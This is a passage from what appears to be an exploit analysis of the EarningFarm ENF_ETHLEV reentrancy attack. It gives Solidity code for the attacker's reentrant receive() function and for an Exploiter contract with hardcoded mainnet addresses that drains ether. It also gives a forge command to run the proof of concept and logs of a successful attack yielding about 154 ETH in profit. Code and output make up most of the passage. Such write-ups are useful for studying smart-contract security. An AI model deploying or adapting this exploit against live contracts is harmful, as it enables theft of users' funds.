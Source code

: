 #### **receive()**

This is the crucial point where the attacker implements the reentrancy. When the Controller attempts to transfer funds to the attacker's contract, the attacker's "receive" function reentrant the contract's "transfer" function, transferring away the LP tokens.

```solidity
    receive() external payable {
        if (msg.sender == Controller) {
            ENF_ETHLEV.transfer(address(exploiter), ENF_ETHLEV.balanceOf(address(this))-1000);
        } 
    }
```

#### **contract Exploiter**

This is the attacker's other contract, which, upon receiving the LP tokens, proceeds to withdraw the corresponding share of ether from ENF\_ETHLEV.

```solidity
/**
 * Contract address: 0xcfd26fe5fe6028539802275c1cc6e9325aa2e3b7
 */
contract Exploiter {
    IENF_ETHLEV ENF_ETHLEV = IENF_ETHLEV(0x5655c442227371267c165101048E4838a762675d);
    function withdraw() external {
        ENF_ETHLEV.approve(address(ENF_ETHLEV), type(uint).max);
        uint256 assetsAmount = ENF_ETHLEV.convertToAssets(ENF_ETHLEV.balanceOf(address(this)));
        ENF_ETHLEV.withdraw(assetsAmount, address(this));
        payable(msg.sender).transfer(address(this).balance);
    }

    receive() external payable {}
}
```

#### **Implementation**

```markdown
forge test --contracts ./test/20230809_EarningFram_exp.t.sol -vvv
```

#### **Results**

```markdown
Running 1 test for test/20230809_EarningFarm_exp.t.sol:ContractTest
[PASS] testExploit() (gas: 4106719)
Logs:
  [*] Attacker WETH balance before exploit: 0.000000000000000000
  ==================== Start of attack ====================
  [*] fee1: 5.000000000000000000
  [*] Attacker's ether balance at the start: 10000.000000000000000000
  ETH Vault:  320599650531622753094
  ETH transferred to cont
  Current Total:  320599650531622753094
  Controller:  320599650531622753094
  Exchange input:  1017776668354357946330 1017776668354357946330
  Exchange curve:  0xDC24316b9AE028F1497c275EB9192a3Ea0f67022
  Exchange:  1017475739806761189725 1017776668354357946330
  [*] Attacker's ether balance after deposit: 9679.400349468377246906
  [*] Attacker's LP share after deposit: 295.761225721251919241
  Cont Withdraw:  320097773741366419079 320097773741366419079
  [*] Attacker's LP share after withdrawing: 0.000000000000000000
  [*] Attacker ether balance after withdrawing: 9999.498123209743665985
  Cont Withdraw:  159826149929020750293 159826149929020750293
  [*] Attacker's total WETH after attack: 10159.324273138764416278
  [*] Attacker's total WETH after payback flashloan: 154.324273138764416278
```